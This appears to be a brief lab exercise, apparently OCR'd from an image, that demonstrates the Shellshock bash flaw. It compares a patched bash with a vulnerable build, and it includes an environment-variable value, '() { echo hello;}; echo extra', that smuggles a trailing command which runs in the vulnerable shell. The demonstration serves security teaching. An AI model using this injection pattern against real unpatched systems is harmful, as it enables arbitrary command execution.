 foo() '{ echo hello;}'
export foo
declare -f foo

Start a child shell using patched bash
/bin/bash
declare -f foo
echo $foo
exit

Start a child shell using vulnerable bash
/bin/bash_shellshock
declare -f foo
echo $foo
exit

Start a child shell using patched bash
foo='() { echo hello;}; echo extra'
export foo
echo $foo
declare -f foo

Start a child shell using vulnerable bash
/bin/bash_shellshock
 -> ** extra
 declare -f foo